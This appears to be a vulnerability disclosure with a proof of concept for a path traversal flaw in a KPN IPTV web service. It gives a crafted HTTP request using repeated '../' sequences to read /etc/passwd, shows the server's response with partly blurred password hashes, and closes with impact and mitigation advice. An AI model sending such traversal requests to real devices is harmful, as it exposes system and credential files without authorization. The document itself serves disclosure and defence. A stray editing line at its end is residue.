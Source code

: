 # KPN IPTV File Path Traversal Vulnerability - PoC (2023)

## Overview

This report demonstrates a **file path traversal vulnerability** discovered in the KPN IPTV service, which allows an attacker to access sensitive system files, such as `/etc/passwd`, without proper authorization. The vulnerability arises from insufficient input validation, enabling directory traversal by manipulating the URL.

---

## Vulnerability Details

A **directory traversal** attack (also known as path traversal) occurs when an attacker can craft a URL that accesses files outside the intended directory scope of a web server. By adding `../` sequences, attackers can navigate up the file system and access files that should be restricted, such as configuration files or user information.

### Affected URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

# Proof of Concept (PoC)
* Malicious Request Example

* Using a crafted HTTP request, an attacker can access the sensitive /etc/passwd file. The request can be tested using Burp Suite or another HTTP proxy tool.
*Burp Suite Request:
```
http

GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

* In this request, the attacker exploits the path traversal vulnerability by using ../ sequences to navigate out of the web server’s intended directory structure and access the /etc/passwd file.

# Server Response

* The server responds with HTTP 200 OK, and the contents of the /etc/passwd file are returned. For privacy, the password hashes have been blurred:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```

# Explanation of /etc/passwd

* The /etc/passwd file is critical for user management in Unix-based systems. It contains essential information about user accounts, including:

    * Username: The user’s login name.
    * Password hash: (If stored here, although modern systems use /etc/shadow).
    * UID: User ID.
    * GID: Group ID.
    * Home Directory: The path to the user’s home directory.
    * Shell: The default shell assigned to the user.

Although modern systems store password hashes in /etc/shadow, disclosing /etc/passwd can still reveal valuable information for further attacks.
Impact

# Exploiting this vulnerability could result in the following:
```
   * Information Disclosure: Access to /etc/passwd reveals usernames and potentially hashed passwords.
   * Privilege Escalation: Attackers may use the disclosed information to crack passwords and escalate privileges.
   * Further Exploitation: Combined with other vulnerabilities, this attack could lead to unauthorized system access.
```
# Mitigation Strategies

* To prevent directory traversal attacks like this, the following countermeasures should be implemented:

   * Input Validation: Strictly validate and sanitize all user inputs to disallow sequences like ../.
   * Directory Restrictions: Implement proper file permissions and ensure the web server does not allow access to sensitive directories.
   * Web Application Firewalls (WAFs): Deploy WAFs to detect and block malicious URL patterns indicative of path traversal attacks.

# Conclusion

*Path traversal vulnerabilities pose a significant security risk by allowing attackers to access files that should remain confidential. In this case, the KPN IPTV service was found to be vulnerable to directory traversal, which can lead to the exposure of sensitive files like /etc/passwd. Ensuring proper input validation, restricting directory access, and implementing security mechanisms like WAFs are critical to preventing such vulnerabilities.
References

    OWASP: Path Traversal
5. **Conclusion and references**: Added a conclusion to summarize the importance of mitigating this type of attack and included references for further reading.

